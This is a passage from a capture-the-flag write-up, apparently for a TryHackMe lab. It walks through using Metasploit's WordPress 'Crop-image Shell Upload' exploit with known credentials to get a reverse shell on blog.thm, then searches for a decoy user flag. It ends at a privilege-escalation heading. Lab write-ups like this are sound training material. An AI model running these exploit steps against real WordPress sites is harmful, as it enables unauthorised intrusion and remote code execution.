 ___

### Exploitation

The [exploit](https://www.exploit-db.com/exploits/46662) we found earlier is actually a Metasploit module so we'll open the Metasploit console with:

``` bash
msfconsole -q
```

The module is called "Crop-image Shell Upload", we can find it by searching for "crop-image"

``` bash
search crop-image
use 0
```

Before we can use the exploit, we have to set the USERNAME, PASSWORD, RHOST, and LHOST options. Once those are set, we can run the module.

``` bash
set USERNAME kwheel
set PASSWORD *********
set RHOST blog.thm
set LHOST your-ip

exploit
```

When the epxloit has finished, we can start our shell with:


``` bash
shell
script -qc /bin/bash /dev/null
```

Now that we've started our shell we can search for the user flag.

``` bash
find / -name user.txt 2>/dev/null
/home/bjoel/user.txt

cat /home/bjoel/user.txt
You won't find what you're looking for here.

TRY HARDER
```

Hmmm, that didn't work. Let's try escalating to root to find the real user flag.

## Root.txt

___

### Privilege Escalation
